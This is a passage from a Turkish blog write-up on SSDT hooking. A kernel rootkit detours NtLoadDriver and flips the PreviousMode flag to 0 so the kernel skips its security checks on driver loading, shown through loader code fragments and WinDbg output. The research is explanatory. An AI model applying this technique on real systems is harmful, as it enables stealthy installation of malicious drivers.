  printf("Failed to Load Driver! Error Code: 0x%08x\n", Status);

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("The driver was installed successfully\n");
 dwExitCode = EXIT_SUCCESS;
```

Daha sonra NTDLL'in adresini ardından NTDLL'den NtLoadDriver'ın adresini alıyoruz. Daha sonra ise NtLoadDriver'ı çağırıyoruz.

## Projenin Çalıştırılması

İlk olarak rootkit'i sanal makinede çalıştıralım ve çıktılarımıza bir göz atalım:


Başarılı bir şekilde SSDT'nin ve NtLoadDriver'ın adresini aldığımızı görebiliriz. Alınan NtLoadDriver'ın adresini kontrol edelim:


Şimdi ise rootkit'te bulunan IoControl fonksiyonuna bir bp ekleyelim ve ardından User-Mode programı çalıştıralım:


User-mode programı bu esnada trambolin için rootkit ile iletişim kurdu.


```
1: kd> uf KernelMode!IoControl
...
KernelMode!IoControl+0x6c [C:\Users\bekoo\source\github\SSDT-Hooking\KernelMode\KernelMode\main.c @ 104]:
  104 fffff803`686c180c 4c8d05dd080000  lea     r8,[KernelMode! ?? ::FNODOBFM::`string' (fffff803`686c20f0)]
  104 fffff803`686c1813 33d2            xor     edx,edx
  104 fffff803`686c1815 33c9            xor     ecx,ecx
  104 fffff803`686c1817 ff154b180000    call    qword ptr [KernelMode!_imp_DbgPrintEx (fffff803`686c3068)]
  106 fffff803`686c181d 4c8d0db42a0000  lea     r9,[KernelMode!OriginalNtLoadDriver (fffff803`686c42d8)]
  106 fffff803`686c1824 41b814000000    mov     r8d,14h
  106 fffff803`686c182a 488d15bffeffff  lea     rdx,[KernelMode!HookedNtLoadDriver (fffff803`686c16f0)]
  106 fffff803`686c1831 488b0d48280000  mov     rcx,qword ptr [KernelMode!g_NtLoadDriverAddress (fffff803`686c4080)]
  106 fffff803`686c1838 e803f8ffff      call    KernelMode!HkDetourFunction (fffff803`686c1040)
  108 fffff803`686c183d 488b442448      mov     rax,qword ptr [rsp+48h]
```

Hatırlayalım, burada trambolini yerleştiren kısım **HkDetourFunction** idi, demi? Şimdi bu fonksiyon çalıştıktan sonraki kısma bir bp koyalım ve NtLoadDriver'ın son haline bir göz atalım:


Çıktıdan görüldüğü üzere NtLoadDriver içerisine bir jmp kodu yerleştirilmiş bulunmakta. Artık User-Mode program NtLoadDriver'ı çağırdığında akış **HookedNtLoadDriver**'a yönlenecek. 

NtLoadDriver'a bir bp koyalım ve süreci devam ettirelim:


Göründüğü gibi, akış NtLoadDriver'dan HookedNtLoadDriver'a aktarılmış bulunmakta. 

Şimdi ise ChangePreviousMode fonksiyona bir bp koyalım PreviousMode bayrağına yaptıklarımıza yakından bakalım:


 
rcx'in değeri 0 olarak (Yani Kernel-Mode) ChangePreviousMode'a girildi. KPCR'nin alındığı kısma kadar programı ilerletelim:


rdx'in aldığı KPCR adresini kontrol edebiliriz:

```
kd> dt _KPCR ffffaf05f3fcd080
nt!_KPCR
   +0x000 NtTib            : _NT_TIB
   +0x000 GdtBase          : 0x00000000`00a00006 _KGDTENTRY64
   +0x008 TssBase          : 0xffffaf05`f3fcd088 _KTSS64
   +0x010 UserRsp          : 0xffffaf05`f3fcd088
   +0x018 Self             : (null) 
   +0x020 CurrentPrcb      : 0x00000000`06afd6a8 _KPRCB
   +0x028 LockArray        : 0xfffffe87`0be99c70 _KSPIN_LOCK_QUEUE
   +0x030 Used_Self        : 0xfffffe87`0be94000 Void
   +0x038 IdtBase          : 0xfffffe87`0be9a000 _KIDTENTRY64
   +0x040 Unused           : [2] 0
   +0x050 Irql             : 0x5c '\'
   +0x051 SecondLevelCacheAssociativity : 0x9f ''
   +0x052 ObsoleteNumber   : 0x4 ''
   +0x053 Fill0            : 0 ''
   +0x054 Unused0          : [3] 0x40e0a5
   +0x060 MajorVersion     : 0x9cc0
   +0x062 MinorVersion     : 0xbe9
   +0x064 StallScaleFactor : 0xfffffe87
   +0x068 Unused1          : [3] (null) 
   +0x080 KernelReserved   : [15] 0x10e
   +0x0bc SecondLevelCacheSize : 0xffffaf05
   +0x0c0 HalReserved      : [16] 0x8000000
   +0x100 Unused2          : 0xe0008
   +0x108 KdVersionBlock   : 0xffffaf05`f3fcd250 Void
   +0x110 Unused3          : 0xffffaf05`f3fcd250 Void
   +0x118 PcrAlign1        : [24] 0xe83afa1a
   +0x180 Prcb             : _KPRCB
```

Artık önemli kısmımıza geldik. PreviousMode bayrağı değiştirilmeden ve değiştirildikten sonraki hallerine bir göz atalım artık:


Bayrağı değiştirmeden önce **1** ve değiştirmemizden sonra **0** olduğunu görebiliriz. 

Bayrağı da değiştirdiğimize göre akışı devam ettirelim ve NtLoadDriver'da bir duralım:


Artık NtLoadDriver'ın içerisindeyiz. Hızlıca PreviousMode bayrağın kontrol edildiği noktaya gelelim:


Göründüğü gibi dl register'ı 0 değeri aldı. Artık kernel ise bu işlemleri bir kernel-mode yetkilisi tarafından yaptığını algılayarak akışı ona göre devam ettirecek:


Vee amacımıza ulaştık. Artık güvenlik kontrolleri kısmını atladı ve sürücüyü yüklemeye başlayacak.

Artık akışı tamamen devam ettirelim ve sonuçları görmek için User-Mode programımıza bakalım:


Başarılı bir şekilde yüklendiğine dair çıktımızı alıyoruz. Ayrıca sürücünün yüklendiğini Windbg'dan da kontrol edebiliriz:


## Sonuç

Arkadaşlar umarım sizler için faydalı bir çalışma olmuştur.

Esasen burada SSDT Hooking tekniği ile kabaca ne yapıldığını ve NtLoadDriver için araştırmalarımı size paylaşmak istedim. Kafanızda bir soru olursa lütfen benimle iletişim kurmaktan çekinmeyin.

İyi araştırmalar dilerim efenimmm.

## **References**
- [Wikipedia- System Service Descriptor Table](https://en.wikipedia.org/wiki/System_Service_Descriptor_Table)
- [Red Team Notes - SSDT](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/glimpse-into-ssdt-in-windows-x64-kernel)
- [Microsoft Learn - Previous Mode](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/previousmode)
